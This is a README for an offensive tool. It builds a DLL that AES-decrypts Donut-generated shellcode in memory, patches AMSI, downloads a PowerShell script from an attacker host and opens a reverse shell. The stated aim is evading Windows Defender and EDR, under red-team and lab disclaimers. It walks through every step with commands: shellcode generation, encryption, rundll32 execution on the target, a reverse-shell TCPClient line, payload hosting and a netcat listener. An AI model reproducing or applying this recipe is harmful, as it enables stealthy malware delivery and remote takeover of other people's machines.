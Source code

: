 # 🧬 AES-Encrypted DLL Loader – Donut + PowerShell

## ⚡ Quick Overview
This project builds a DLL which, when executed (e.g., via `rundll32`), decrypts in-memory shellcode previously generated and encrypted with AES. The shellcode is created using [Donut](https://github.com/TheWover/donut) and contains a C# loader that downloads and runs a PowerShell script, ultimately establishing a reverse shell.

> **Warning:**  
> Use this project **only** in controlled lab environments and for educational purposes. Any unauthorized usage in production environments can be illegal and is the sole responsibility of the user.

---

## 🎯 Motivation
Shellcode generated by tools like `msfvenom` often triggers modern antivirus and EDR solutions. Even encoders might not bypass typical behavioral signatures. To improve evasion:

- **Donut** is used instead of `msfvenom` to produce shellcode from a .NET executable.
- The shellcode is **AES-encrypted** via a custom Python script.
- The DLL (`loader.dll`) decrypts and executes the payload in memory, making it harder to detect.

This method is intended for Red Team exercises or advanced pentesting labs (like OSEP). It has been tested with **Windows Defender enabled**.

---

## 🧩 Step 1: Compile the C# Loader
1. Open `Loader.cs`.
2. This loader **patches AMSI** using .NET Reflection, then downloads a remote PowerShell script (`shell.ps1`) and executes it in-memory.
3. Update the hardcoded IP/URL so that it points to the machine hosting `shell.ps1`.

**Note on dependencies:**  
You might need to reference `System.Management.Automation.dll`, for example:

    C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
    
Also ensure that your PowerShell execution policy allows scripts to run, or use a bypass method.

---

## 🏗️ Step 2: Generate Shellcode with Donut
Use Donut to transform your .NET executable (`Loader.exe`) into raw shellcode:
    
    donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin

**Explanation of flags**:
- `-a 2`: Target architecture (x64).
- `-f 1`: Output format: raw (binary).
- `-b 1`: AMSI/WLDP/ETW bypass level (0 = none, 1 = always, etc.).

> **Tip:** This Donut command is tested on Windows. You can transfer `shellcode.bin` to a Linux machine for encryption.

---

## 🏷️ Step 3: Encrypt and Compile
Run the `AES_DLL_Builder.py` script to embed (or not) the encryption key.

### Option A: Standalone (key embedded)

    python3 AES_DLL_Builder.py --standalone shellcode.bin

It will generate `loader.dll` with the key embedded. Then, on the Windows target:

    rundll32 loader.dll,EPoint

### Option B: Non-Standalone (key supplied at runtime)

    python3 AES_DLL_Builder.py --non-standalone shellcode.bin

On the Windows target:

    rundll32 loader.dll,EPoint "my_key_123"

---

## 🌐 Step 4: Host the PowerShell Script
1. Create a `shell.ps1` file containing reverse shell logic (for example):
    
        $client = New-Object System.Net.Sockets.TCPClient("192.168.1.XX",443)
        # ...
    
2. Serve it via HTTP:
    
        python3 -m http.server 80
    
3. Ensure the IP and port in `shell.ps1` match your listening service.

---

## 📡 Step 5: Start a Netcat Listener
Set up a netcat listener (optionally with `rlwrap` to improve shell handling):
    
    rlwrap -cAr nc -lnvp 443

---

## ⚠️ Legal Disclaimer
This project is provided **exclusively** for educational purposes and authorized penetration testing.  
**Do not** use it without explicit permission, as it may violate local laws and regulations.  
The authors assume no responsibility for any misuse or damage caused by this software.

